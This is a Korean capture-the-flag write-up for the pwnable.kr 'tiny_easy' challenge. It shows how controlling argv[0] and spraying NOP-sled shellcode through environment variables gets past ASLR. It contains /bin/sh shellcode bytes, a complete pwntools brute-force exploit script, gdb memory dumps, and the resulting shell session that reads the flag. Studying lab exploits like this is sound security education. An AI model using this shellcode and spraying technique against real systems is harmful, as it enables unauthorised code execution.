





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

파일 정보를 확인해보자.

```sh
tiny_easy@pwnable:~$ checksec tiny_easy
[*] '/home/tiny_easy/tiny_easy'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

실행해보면 Segmentation fault가 난다.

```sh
tiny_easy@pwnable:~$ ./tiny_easy
Segmentation fault (core dumped)
```

뜬금없이 pop pop 이후 edx가 가르키는 주소의 값을 호출하는 코드이다. 그래서 코어 덤프가 일어나는 듯 싶다.



[edx]를 가보니 실행파일명(argv[0])의 4byte임을 확인할 수 있다.



파일명(argv[0])을 바꾸면 그에 따라 바뀜을 확인할 수 있다.



파일 권한에 걸려 파일이름을 바꿀 수는 없지만, pwntools를 이용하면 argv[0]을 조작할 수 있다.

다음의 C 코드를 컴파일하여 test라는 바이너리를 만들자.

```cpp
# test.c
#include <stdio.h>

int main(int argc, char* argv[]){
        printf("my argv[0]\t: %s\n", argv[0]);
	return 0;
}
```

이후 pwntools를 이용하여 argv를 넘겨주면 argv[0]이 test가 아닌 내가 설정한 값이 들어가게 된다.

```python
from pwn import *

p = process(executable="./test", argv=["argv_test"])
print(p.recvline().decode())

[Output]
my argv[0]    : argv_test
```

스택에서 argv[0]다음에는 환경변수(env)값이 있는 것을 확인할 수 있다.



env명령어를 쳐서 나온 결과 값과 같다는 것을 확인할 수 있다.

```sh
root@ubuntu:~/pwn# env
SHELL=/bin/bash
PWD=/root/pwn
LOGNAME=root
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
... 생략 ...
```

NX bit가 enable이 되어있지 않으므로, stack영역에 shell code를 삽입하고 (env이용) 해당 주소로 점프(argv[0])하면 될 듯하다.

하지만 ASLR이 걸려있어서 stack의 주소는 계속 바뀔것이다.

```sh
tiny_easy@pwnable:~$ cat /proc/sys/kernel/randomize_va_space
2
```

스택의 주소를 대강 살펴보니 0xffxxxxxx로 할당 받는듯 하다.

```sh
tiny_easy@pwnable:~$ gdb -q ./tiny_easy
Reading symbols from ./tiny_easy...(no debugging symbols found)...done.\
(gdb) b * 0x804754
Breakpoint 1 at 0x8048054
(gdb) r
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffcc76d0:     0x00000001      0xffcc8dc0      0x00000000      0xffcc8dda
0xffcc76e0:     0xffcc8def      0xffcc8dff      0xffcc8e0a      0xffcc8e2d
0xffcc76f0:     0xffcc8e40      0xffcc8e4f
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffec0f70:     0x00000001      0xffec2dc0      0x00000000      0xffec2dda
0xffec0f80:     0xffec2def      0xffec2dff      0xffec2e0a      0xffec2e2d
0xffec0f90:     0xffec2e40      0xffec2e4f
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/tiny_easy/tiny_easy

Breakpoint 1, 0x08048054 in ?? ()
(gdb) x/10x $esp
0xffb429e0:     0x00000001      0xffb42dc0      0x00000000      0xffb42dda
0xffb429f0:     0xffb42def      0xffb42dff      0xffb42e0a      0xffb42e2d
0xffb42a00:     0xffb42e40      0xffb42e4f
```

/bin/sh을 실행하는 shellcode는 다음과 같다.

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

exploit을 작성 후 실행하자.

```sh
tiny_easy@pwnable:~$ mkdir -p /tmp/2honrr_tiny
tiny_easy@pwnable:~$ cd /tmp/2honrr_tiny
tiny_easy@pwnable:/tmp/2honrr_tiny$ vi exploit.py
```

```python
from pwn import *

shellcode = "\x90" * 0x1500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
argv = [p32(0xffb15fff)]
env = dict()
for i in range(256):
        env[str(i)] = shellcode
for i in range(256):
        p = process(executable='/home/tiny_easy/tiny_easy', argv=argv, env=env)
        try:
                p.sendline('ls')
                p.recvline()
        except:
                p.close()
                continue
        p.interactive()
        break
```

```sh
tiny_easy@pwnable:/tmp/2honrr_tiny$ python exploit.py
... 생략 ...
[*] Switching to interactive mode
$ ls -al
total 722880
drwxrwxr-x  2 tiny_easy tiny_easy      4096 Dec  7 02:25 .
drwxrwx-wt 12 root      root      740204544 Dec  7 02:25 ..
-rw-rw-r--  1 tiny_easy tiny_easy       544 Dec  7 02:25 exploit.py
$ cd /home/tiny_easy/
$ cat flag
What a tiny task :) good job!
```


# **FLAG**

**What a tiny task :) good job!**